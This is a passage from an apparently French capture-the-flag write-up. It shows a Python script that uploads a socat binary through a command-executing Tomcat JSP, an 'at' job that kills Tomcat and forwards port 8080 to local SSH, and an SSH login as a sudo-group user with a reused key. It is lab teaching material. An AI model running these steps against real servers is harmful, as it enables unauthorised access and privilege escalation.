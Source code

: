 Et surtout le fait que le process Java du tomcat tourne avec nos droits (tomcat8)...  

Si seulement on pouvait stopper ce process pour récupérer le seul port ouvert (8080) et mettre en place une redirection vers le port 22 (en écoute sur 127.0.0.1)... et bien on avancerait peut être quelque part :D  

D'abord j'ai fait un dernier script Python (demain j'arrête) pour uploader des fichiers :  

```python
from binascii import hexlify
import requests

URL = "http://192.168.1.10:8080/test.jsp?path=python3+/tmp/pyexec.py+{}"

sess = requests.session()
with open("socat_base64") as fd:
    for line in fd:
        line = line.strip()
        cmd = "echo -n {} >> /tmp/socat_base64".format(line)
        sess.get(URL.format(hexlify(cmd.encode()).decode()))
```

L'idée ici est d'abord d'encoder en local (sur la machine d'attaque) le binaire [socat](http://www.dest-unreach.org/socat/) en base64 puis de le recréer côté serveur ligne par ligne. Une fois terminé on décode le base64 côté serveur pour récupérer le socat original. Une astuce que j'avais utilisé pour un précédent CTF.  

Maintenant la problématique est de faire exécuter une série de commande via le serveur Tomcat dont la première commande tue le serveur mais qui doit tout de même exécuter les commandes restantes...  

*crontab* pourrait le faire mais il faut éditer un fichier... et *at* est présent sur le système. C'est donc aussi simple que :  

```plain
echo 'kill -9 1415; sleep 5; /tmp/socat TCP4-LISTEN:8080,fork,reuseaddr TCP4:127.0.0.1:22' | at now + 1 minutes
```

On attend un peu, on se connecte via SSH sur le port 8080... et ça marche !  

[Le train de tes injures roule sur le rail de mon indifférence](https://www.youtube.com/watch?v=eO8PVwwUEsI)
------------------------------------------------------------------------------------------------------------

Sauf que le shell pour *tomcat8* est */bin/false* donc on ne va pas bien loin :D  

A moins que bien sûr la clé SSH ait été réutilisée pour l'utilisateur *bill* :  

```plain
$ ssh -i /tmp/tomcat8_key bill@192.168.1.10 -p 8080
Welcome to Ubuntu 17.04 (GNU/Linux 4.10.0-35-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * What are your preferred Linux desktop apps?  Help us set the default
   desktop apps in Ubuntu 18.04 LTS:
   - https://ubu.one/apps1804

0 packages can be updated.
0 updates are security updates.

Failed to connect to http://changelogs.ubuntu.com/meta-release. Check your Internet connection or proxy settings

Last login: Thu Oct 12 14:31:03 2017
bill@b2r:~$ id
uid=1000(bill) gid=1000(bill) groups=1000(bill),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lxd),116(lpadmin),117(sambashare)
```